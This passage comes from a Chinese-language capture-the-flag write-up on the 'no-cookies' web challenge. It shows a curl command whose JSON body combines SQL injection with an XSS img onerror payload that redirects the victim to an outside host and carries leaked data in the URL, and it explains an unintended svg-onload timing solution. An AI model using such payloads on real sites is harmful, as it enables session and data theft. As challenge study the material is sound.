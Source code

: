 所以结合上面，我们最终的payload是这样的

```shell
$ curl 'https://no-cookies-0ac0b52c95f3abe3.mc.ax/create' -H 'Content-Type: application/json' --data-raw '{"username":":note","password":"password","note":",:mode, 22, 0)-- ","mode":"<img src=x onerror=\"window.location=&quot;https://bawolff.net?&quot;+RegExp.input\">"}'
```

### 非预期

当然逃不了js大手子们的非预期解了，非预期没有用到`RegExp.input`，而是

```js
document.querySelector('.note').innerHTML = text;
document.querySelector('.views').innerText = views;
```

有两种情况

```html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<img src=x onerror=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

此时alert的内容是`updated`，而如果换成`<svg>`就不一样了

```html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<svg><svg onload=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

它alert的是前面的`hello`

而渲染页面的js代码简化后是这样

```js
(async () => {
  const { note, mode, views } = await (await fetch('/view', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
    },
    body: JSON.stringify({
      username,
      password,
      id: params.get('id')
    })
  })).json();

  document.querySelector('.note').innerHTML = text;
  // 在底下這行執行之前，會先執行我們的 XSS payload
  document.querySelector('.views').innerText = views;
})();
```
